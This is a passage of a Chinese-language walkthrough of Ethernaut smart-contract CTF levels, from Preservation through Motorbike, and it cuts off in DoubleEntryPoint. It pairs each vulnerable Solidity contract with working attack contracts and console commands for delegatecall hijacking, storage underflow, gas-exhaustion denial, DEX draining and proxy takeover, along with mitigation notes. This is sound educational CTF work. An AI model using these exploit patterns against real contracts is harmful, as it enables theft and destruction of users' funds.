- 在调用 `transferFrom` 之前需要取得 `msg.sender` 的授权

    ```js
    >> await contract.approve(player, await contract.INITIAL_SUPPLY())
    ```

- 发起转账

    ```js
    >> await contract.transferFrom(player, instance, await contract.INITIAL_SUPPLY())
    ```

### 参考资料

[ERC 20 - OpenZeppelin Docs](https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#ERC20-_mint-address-uint256-)

## 16. Preservation

声明对实例的所有权

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time; // 修改了第一个状态变量
  }
}
```

- `delegatecall` 只使用给定地址的代码，其他属性（存储、余额等）都取自当前合约，因此，调用 `delegatecall` 合约的存储布局必须和被调用合约保持一致
- 先利用 `setFirstTime` 修改合约 `Preservation` 的第一个状态变量，即 `timeZone1Library` 的值为合约 `Hack` 的地址，再调用 `setFirstTime` 函数，此时将执行合约 `Hack` 中的代码
    - `timeZone1Library` 如果修改错误则无法进行后续步骤，此时再重新申请一个实例

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }

  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

contract LibraryContract {

  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}

contract Hack {
  // Make sure the storage layout is the same as Preservation
  // This will allow us to correctly update the state variables
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;

  Preservation preservation;

  constructor(address instance) {
      preservation = Preservation(instance);
  }

  function attack() public {
      // override address of timeZone1Library
      preservation.setFirstTime(uint(uint160(address(this))));
      // change the owner
      preservation.setFirstTime(1);
  }

  // function signature must match LibraryContract.setTimeSignature
  function setTime(uint _time) public {
      owner = tx.origin;
      _time;
  }
}
```

- 库应使用 `library` 来声明
- `library` 与 `contract` 类似，但不能声明任何状态变量或向其发送以太

### 参考资料

- [Delegatecall | Solidity by Example](https://solidity-by-example.org/hacks/delegatecall/)
- [Library | Solidity by Example](https://solidity-by-example.org/library/)

## 17. Recovery

从遗失的合约地址中找回 0.5 以太

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  }

}

contract SimpleToken {

  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] - _amount;
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

- 已知合约 `Recovery` 的地址，需要恢复其中创建的合约 `SimpleToken` 里的以太，但合约 `SimpleToken` 创建后没有赋值给变量
- 不过信息都是公开的嘛！使用合约 `Recovery` 的地址在 [Etherscan](https://goerli.etherscan.io/address/0x518c2143bdd79d3bc060bc4883d92d545d3e3bb0#internaltx) 找到交易信息，其中就包括合约创建 ΦωΦ 合约 `SimpleToken` 实例的地址 GET ✔️ <br>

- 在 Remix 添加合约 `SimpleToken` 的源码，通过 `At Address` 引用合约<br>

- 接下来调用 `destroy` 函数就可以取回以太啦 XD
- 实际上，合约地址都是确定性的，通过合约创建者（`sender`）的地址 `address` 以及由创建者发起的交易的数量 `nonce` 计算获得
    - 根据 [EIP 161](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-161.md#specification)，初始 `nonce` 为 $1$

    ```py
    import rlp
    from eth_utils import keccak, to_checksum_address, to_bytes

    def mk_contract_address(sender: str, nonce: int) -> str:
      """
      Create a contract address using eth-utils.
      """
      sender_bytes = to_bytes(hexstr=sender)
      address_bytes = keccak(rlp.encode([sender_bytes, nonce]))[12:]
      return to_checksum_address(address_bytes)

    mk_contract_address(to_checksum_address("0x518C2143bDd79d3bc060BC4883d92D545D3E3bb0"), 1)
    # 0x53D144BcF44de3DeE630b1CFEabD91AC3d3caF5a
    ```

- 因此，可以将以太币发送到预确定的地址，随后在指定地址创建合约来恢复以太币，实现无私钥保存以太币

### 参考资料

- [How is the address of an Ethereum contract computed?](https://ethereum.stackexchange.com/questions/760/how-is-the-address-of-an-ethereum-contract-computed)
- [Normal transactions VS. Internal transactions in etherscan - Ethereum Stack Exchange](https://ethereum.stackexchange.com/questions/6429/normal-transactions-vs-internal-transactions-in-etherscan)

## 18. MagicNumber

- 部署合约 `Solver`，包含函数 `whatIsTheMeaningOfLife()`，需要返回正确的数，即 `42`
- 代码最多只能包含 10 个操作码，可能需要人工编写 EVM 字节码 😱

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract MagicNum {

  address public solver;

  constructor() {}

  function setSolver(address _solver) public {
    solver = _solver;
  }

  /*
    ____________/\\\_______/\\\\\\\\\_____        
     __________/\\\\\_____/\\\///////\\\___       
      ________/\\\/\\\____\///______\//\\\__      
       ______/\\\/\/\\\______________/\\\/___     
        ____/\\\/__\/\\\___________/\\\//_____    
         __/\\\\\\\\\\\\\\\\_____/\\\//________   
          _\///////////\\\//____/\\\/___________  
           ___________\/\\\_____/\\\\\\\\\\\\\\\_ 
            ___________\///_____\///////////////__
  */
}
```

- EVM 执行字节码，并不知道函数名、参数名等信息
- 通过 ABI，其它合约能够调用指定合约的函数
- 无论被调用的函数名是什么都将返回 $42$ 的合约 👇🏻

    ```
    60 0a
    60 0c
    60 00
    39  // copy code into memory
    60 0a
    60 00
    f3  // return code

    60 2a
    60 00
    52  // push 42 into memory
    60 20
    60 00
    f3  // return
    ```

- 由外部账户发起没有 `to` 地址的转账交易，并将合约的 bytecode 放在 `data` 域即可创建合约

    ```js
    >> let bytecode = "600a600c600039600a6000f3602a60005260206000f3";
    >> await web3.eth.sendTransaction({"data": bytecode, "from": player})
    Object { blockHash: "0x91be4e10a259695dc64e5feea7b875135dfc3f96f1b649554761514f4282c815", blockNumber: 8034615, contractAddress: "0x59B38CC5e23Ac1aE9c93A4c73CA1fA9c1A149736", ... }
    ```

- 接下来调用实例的 `setSolver` 就好啦 =v=

    ```js
    >> await contract.setSolver("0x59B38CC5e23Ac1aE9c93A4c73CA1fA9c1A149736");
    >> await contract.solver();
    "0x59B38CC5e23Ac1aE9c93A4c73CA1fA9c1A149736"
    ```

### 参考资料

- [Ethereum Virtual Machine Opcodes](https://www.ethervm.io/)
- [EVM bytecode programming - HackMD](https://hackmd.io/@e18r/r1yM3rCCd)
- [evm - What is an ABI and why is it needed to interact with contracts? - Ethereum Stack Exchange](https://ethereum.stackexchange.com/questions/234/what-is-an-abi-and-why-is-it-needed-to-interact-with-contracts)

## 19. Alien Codex

声明对合约实例的所有权

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

- 合约继承中，父合约 [`Ownable`](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/helpers/Ownable-05.sol) 的代码将全部拷贝至子合约 `AlienCodex`，包括变量 `owner`
- 根据提示 `Understanding how array storage works`，显然重点在数组 `codex` 上
- 动态数组与静态变量的存储方式（可参考 [Privacy](#12-privacy)）不同，但仍根据静态变量的存储规则占用一个 `slot p`，用于存储数组长度，数组偏移量为 `keccak(p)`，数组元素的存储方式与静态数组相同
    - 数组元素偏移量为 `keccak(p) + (index * elementSize)`
    - `codex` 占用 `slot 1`，计算数组偏移量

        ```js
        >> web3.utils.soliditySha3({ type: "uint", value: 1 })
        "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6"
        ```

- 地址长度为 32 字节，所以总共有 $2^{256}$ 个 slot，那么，想要修改 `slot 0` 的 `owner`，需要修改下标为 `0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a` 的数组元素
- 操作数组 `codex` 需要 `contact` 为 `true`

    ```js
    >> await web3.eth.getStorageAt(instance, 0)
    "0x000000000000000000000000da5b3fb76c78b6edee6be8f11a1c31ecfb02b272"
    >> await contract.make_contact()
    >> await contract.contact()
    true
    >> await web3.eth.getStorageAt(instance, 0)
    "0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272"
    // slot 0 存储了变量 owner 和 contact 的值
    ```

- 使用 `retract` 使数组长度下溢出，从而能修改目标下标的元素

    ```js
    >> await contract.retract();
    >> await web3.eth.getStorageAt(instance, 1);
    "0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff"
    ```

- 修改 `owner`

    ```js
    >> await contract.revise("0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a", "0x0000000000000000000000017Fb8134848aDe56fF213eC49edBbB1D830853289");
    >> await web3.eth.getStorageAt(instance, 0);
    "0x0000000000000000000000017fb8134848ade56ff213ec49edbbb1d830853289"
    >> await contract.owner();
    "0x7Fb8134848aDe56fF213eC49edBbB1D830853289"
    ```

### 参考资料

- [Inheritance](https://docs.soliditylang.org/en/v0.5.0/contracts.html#inheritance)
- [Layout of State Variables in Storage](https://docs.soliditylang.org/en/v0.8.14/internals/layout_in_storage.html)
- [Accessing Private Data | Solidity by Example](https://solidity-by-example.org/hacks/accessing-private-data/)

## 20. Denial

阻止 `owner` 在投资人调用 `withdraw()` 时获利

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

- `withdraw()` 并没有检查 `partner.call{value:amountToSend}("");` 的返回值，因此被调用函数 `revert` 并不会影响后续语句的执行，但可以耗尽汽油使整个交易失败

    ```js
    // 先使用 setWithdrawPartner 设置 partner 为合约 Hack 的地址
    contract Hack {
      receive() external payable {
        while(true) {}
      }
    }
    ```

- 当使用 `call` 发起外部调用时，最好指定汽油量，如 `call.gas(100000).value()`
- 外部 `CALL` 最多可以使用 `CALL` 时 63/64 的汽油，因此，足够高的汽油量也可以缓解这种攻击

## 21. Shop

以低于定价的价格从商店购买商品

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

- 需要实现 `price()` 函数，使得第一次调用时返回的价格不小于定价，第二次调用时返回的价格小于定价
- 声明了 `view` 的函数不能修改状态，第一反应是利用 `gasleft()` 来获得变化的值

    ```js
    contract Hack {
      function buy(address instance) public {
        Shop(instance).buy();
      }
      function price() external view returns (uint) {
        return gasleft() / 10 - 300;  // 在 Goerli 测试网络上调试通过
      }
    }
    ```

- 声明了 `view` 的函数可以读取状态，因此也可以利用状态变量 `isSold`

    ```js
    contract Hack {
      function buy(address instance) public {
        Shop(instance).buy();
      }
      function price() external view returns (uint) {
        return Shop(msg.sender).isSold() ? 0 : 100;
      }
    }
    ```

## 22. Dex

- 至少清空 [DEX](https://en.wikipedia.org/wiki/Decentralized_exchange) 合约中的一种代币
- 合约 `Dex` 每种代币初始各 100 枚，玩家每种代币初始各 10 枚

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract Dex is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

- 梳理合约 `Dex` 提供的代币互换方式
    - 根据要交换的 `from` 代币的数量 `amount`、`Dex` 合约 `from` 和 `to` 代币的余额计算交换得到 `to` 代币的数量 `swapAmount`，即 `swapAmount = amount * to.balance / from.balance`
    - 将要交换的 `from` 代币存入 `Dex` 合约，`swapAmount` 数量的 `to` 代币从 `Dex` 合约转出
- 若首先将 10 枚 `token1` 转换为 `token2`，此时 `swapAmount` 为 10，`Dex` 合约 `token1` 的余额变为 110、`token2` 的余额变为 90，玩家将持有 20 枚 `token2` 代币，再将全部 `token2` 转为 `token1`，此时 `swapAmount` 提高到 24，可见不断进行代币互换即可清空 `Dex` 合约中的一种代币
- 部署合约 `Hack`，并授权使用代币 `>> contract.approve("<hack-address>", 10)`

    ```js
    contract Hack {
        function exploit(address instance) public {
            Dex dex = Dex(instance);
            address token1 = dex.token1();
            address token2 = dex.token2();
            IERC20(token1).transferFrom(msg.sender, address(this), 10);
            IERC20(token2).transferFrom(msg.sender, address(this), 10);
            while (dex.balanceOf(token1, instance) > 0 && dex.balanceOf(token2, instance) > 0) {
                uint256 amount = dex.balanceOf(token1, address(this));  // 将持有的代币全部用于交换
                if (amount > 0) {
                    // 除第一次交换外，合约 Dex 的 to 代币的余额必为 110
                    // 当 swapAmount 大于 Dex 合约 to 代币的余额时，说明本次交换能够清空 to 代币
                    // 即可以获得 110 枚 to 代币，那么参与交换的 from 代币的数量应为
                    // 110 * from.balance / to.balance = 110 * from.balance / 110 = from.balance
                    if (dex.getSwapPrice(token1, token2, amount) > dex.balanceOf(token2, instance)) {
                        amount = dex.balanceOf(token1, instance);
                    }
                    dex.approve(instance, amount);
                    dex.swap(token1, token2, amount);
                }
                else {
                    amount = dex.balanceOf(token2, address(this));
                    if (dex.getSwapPrice(token2, token1, amount) > dex.balanceOf(token1, instance)) {
                        amount = dex.balanceOf(token2, instance);
                    }
                    dex.approve(instance, amount);
                    dex.swap(token2, token1, amount);
                }
            }
        }
    }
    ```

- 不应从单个来源获取价格或其它数据，可以借助于 Oracles，如 [Chainlink Data Feeds](https://docs.chain.link/docs/get-the-latest-price)

## 23. Dex Two

- 清空 `DexTwo` 合约中的所有代币
- 合约 `DexTwo` 每种代币初始各 100 枚，玩家每种代币初始各 10 枚

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract DexTwo is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

- 相比合约 `Dex`，合约 `DexTwo` 在进行货币交换时不再检查输入参数 `from`、`to`，因此可以借助其它代币来清空 `DexTwo` 中的 `token1` 和 `token2`

    ```js
    contract Hack {
      address[] tokens;
      function exploit(address instance) public {
        DexTwo dex = DexTwo(instance);
        tokens.push(dex.token1());
        tokens.push(dex.token2());
        for (uint8 i = 0; i < 2; i ++) {
          SwappableTokenTwo token = new SwappableTokenTwo(instance, "fake", "F", 2);
          token.transfer(instance, 1);
          token.approve(address(this), instance, 1);
          dex.swap(address(token), tokens[i], 1);
        }
      }
    }
    ```
  
- 声明实现了 ERC20 标准的合约不一定可信，部分合约的[函数返回值可能缺失](https://medium.com/coinmonks/missing-return-value-bug-at-least-130-tokens-affected-d67bf08521ca)，也可能存在恶意行为
- 更简单地，可以部署一个恶意的 ERC20 合约

    ```js
    contract DexTwoAttackToken {
        function balanceOf(address) external pure returns (uint256) {
            return 1;
        }

        function transferFrom(address, address, uint256) external pure returns (bool) {
            return true;
        }
    }
    ```

    ```js
    >> contract.swap("<DexTwoAttackTokenAddress>", await contract.token1(), 1)
    >> contract.swap("<DexTwoAttackTokenAddress>", await contract.token2(), 1)
    ```

## 24. Puzzle Wallet

成为代理合约的管理员

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2; // redundant

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) {
        admin = _admin;
    }

    modifier onlyAdmin {
      require(msg.sender == admin, "Caller is not the admin");
      _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
      require(address(this).balance <= maxBalance, "Max balance reached");
      balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success, ) = to.call{ value: value }(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success, ) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```

- 调用逻辑合约 `PuzzleWallet` 相关函数需要在白名单内且只有 `owner` 才能添加指定地址到白名单

    ```js
    >> await contract.whitelisted(player)
    false
    >> await contract.owner()
    "<level-address>" 
    ```

- 由于使用代理调用的方式，代理合约的 `pendingAdmin` 与逻辑合约的 `owner` 共享一个 slot，因而可先通过 `proposeNewAdmin` 更新 `owner`，随后将玩家添加到白名单中
- 同理，`maxBalance` 与 `admin` 共享一个 slot，而 `maxBalance` 可通过 `setMaxBalance` 更新，但首先需清空代理合约的余额
- `execute` 依据 `balances` 中记录的对应地址的余额进行转账，而 `balances` 只能通过 `deposit` 改变
- 注意到 `multicall` 中 `depositCalled` 不是状态变量而是函数内变量，因而嵌套调用 `multicall` 可绕过限制利用单次 transfer 进行重复 `deposit`

    ```js
    // 部署后将攻击合约添加到白名单中
    contract Hack {
        PuzzleWallet wallet;

        constructor(address instance) {
            wallet = PuzzleWallet(instance);
        }

        // msg.value 设置为 0.001 eth，即代理合约初始余额
        function exploit() external payable {
            bytes[] memory data = new bytes[](2);
            bytes[] memory subdata = new bytes[](1);
            data[0] = abi.encodeWithSignature("deposit()");
            subdata[0] = data[0];
            data[1] = abi.encodeWithSignature("multicall(bytes[])", subdata);
            wallet.multicall{value: msg.value}(data);
            wallet.execute(msg.sender, msg.value * 2, "");
        }
    }
    ```

- `delegatecall` 保持合约被调用时的 `msg.value`

## 25. Motorbike

让 `Engine` 自毁，使 `Motorbike` 不可用

```js
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "openzeppelin-contracts-06/utils/Address.sol";
import "openzeppelin-contracts-06/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    // constant variable does not have a storage slot
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`. 
    // Will run if no other function in the contract matches the call data
    fallback () external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS(Universal Upgradeable Proxy Standard) proxies, and additional setup call.
    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }
    
    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");
        
        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

- 与透明代理模式不同，UUPS 代理模式由逻辑合约负责升级逻辑，因而代理合约部署的代价较小
- `upgrader` 可以使用 `upgradeToAndCall()` 更新逻辑合约并调用
- `Motorbike` 在部署时通过 `delegatecall` 调用 `Engine` 的 `initialize()`，`initialize()` 使用 `initializer` 函数修饰符，避免再次初始化
    - `initializer` 修饰符使用状态变量 `initialized` 和 `initializing` 记录或判断初始化状态
- `initialized` 存储在 `Motorbike` 实例中，而不是 `Engine`，因而可以直接调用 `Engine` 实例的 `initialize()` 再更新其逻辑合约的地址并调用
- *不要让逻辑合约处于未初始化状态*

### Exploit

```js
// 获取 Engine 实例的地址
>> await web3.eth.getStorageAt(instance, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc");
"0x000000000000000000000000e12c57f61db3891d41ddde5a6669591391ad30ab"
```

```js
// 部署新的逻辑合约
contract Bomb {
    fallback() external {
        selfdestruct(tx.origin);
    }
}
// 调用 initialize 成为 upgrader，随后调用 upgradeToAndCall() 更新逻辑合约
```

### 参考资料

- [UUPS Proxies: Tutorial (Solidity + JavaScript) - Smart Contracts / Guides and Tutorials - OpenZeppelin Forum](https://forum.openzeppelin.com/t/uups-proxies-tutorial-solidity-javascript/7786)
- [Proxies - OpenZeppelin Docs](https://docs.openzeppelin.com/contracts/4.x/api/proxy#transparent-vs-uups)
- [Constant and Immutable State Variables](https://docs.soliditylang.org/en/latest/contracts.html#constants)
- [Writing Upgradeable Contracts - OpenZeppelin Docs](https://docs.openzeppelin.com/upgrades-plugins/1.x/writing-upgradeable)

## 26. DoubleEntryPoint

- 防止合约 `CryptoVault` 被清空代币
- 实现能够正确告警以防止潜在攻击或漏洞利用的 `detection bot` 合约并在 `Forta` 注册

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/access/Ownable.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

interface DelegateERC20 {
  function delegateTransfer(address to, uint256 value, address origSender) external returns (bool);
}

interface IDetectionBot {
    function handleTransaction(address user, bytes calldata msgData) external;
}

interface IForta {
    function setDetectionBot(address detectionBotAddress) external;
    function notify(address user, bytes calldata msgData) external;
    function raiseAlert(address user) external;
}

contract Forta is IForta {
  mapping(address => IDetectionBot) public usersDetectionBots;
  mapping(address => uint256) public botRaisedAlerts;

  function setDetectionBot(address detectionBotAddress) external override {
      usersDetectionBots[msg.sender] = IDetectionBot(detectionBotAddress);
  }

  function notify(address user, bytes calldata msgData) external override {
    if(address(usersDetectionBots[user]) == address(0)) return;
    try usersDetectionBots[user].handleTransaction(user, msgData) {
        return;
    } catch {}
  }

  function raiseAlert(address user) external override {
      if(address(usersDetectionBots[user]) != msg.sender) return;
